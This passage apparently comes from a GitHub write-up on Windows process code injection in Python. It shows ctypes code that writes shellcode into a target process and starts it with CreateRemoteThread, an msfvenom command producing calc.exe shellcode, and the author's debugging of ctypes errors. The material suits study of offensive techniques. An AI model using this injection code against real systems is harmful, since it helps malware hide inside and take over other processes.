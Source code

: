 ```py
    written = 0
    kernel32.WriteProcessMemory(h_process, arg_address, shellcode, len(shellcode), written)

    # call CreateRemoteThread with the entry point set to the start of the written shellcode
    thread_id = c_ulong(0)
    if not kernel32.CreateRemoteThread(h_process, None, 0, arg_address, None, 0, byref(thread_id)):
        logging.error("CreateRemoteThread failed.")
        sys.exit(1)
    logging.info(f"Code injection successfull - thread ID: {hex(thread_id.value)}")
```

## issue discussion
I have encountered different issues with ctypes during the implementation that will be discussed in the following section. As for the python version: Python 3.8 was used on Windows 10 1809, installed via chocolatey.

### Ctypes memcopy issues 

The first issue affected memcopying: 
```s
Traceback (most recent call last):
  File ".\code_injection.py", line 51, in <module>
    kernel32.WriteProcessMemory(h_process, arg_address, shellcode, len(shellcode), byref(written))
ctypes.ArgumentError: argument 3: <class 'ValueError'>: embedded null character
```
From a bit of digging into the issue it seems that the handling of byte copy behaviour in `ctypes` was changed around python version 3.6 and embedded null characters are no longer accepted. Even when specifying the size of the buffer this does not change. 

In order to avoid the issue, the shellcode should be encoded. The encoding will then try to eliminate bad bytes if possible.

msfvenom command to generate encoded shellcode:
```s
msfvenom -p windows/x64/exec CMD=calc.exe EXITFUNC=thread -b '\x00' -f python
```

### Ctypes page allocation issues
A crash was encountered after a successful injection. This is most likely caused by one of two things: 

1. the shellcode is not executable (highly unlikely in this case)
2. execution wasn't redirected to shellcode


Let's look into it by adding some debug output. Pausing the execution and printing relevant memory sections and pointer values is especially useful during this step. 

```s
print("arg_address ", hex(arg_address))
input("press enter to continue")
```

Executing the code with added debug output leads prints the following:
```s
C:\Users\IEUser\AppData\Local\Programs\Python\Python37\python.exe .\code_injection.py -p 308
<class 'bytes'>
h_process  0x1d8
press enter to continue
arg_address  -0x1bb90000
press enter to continue
```
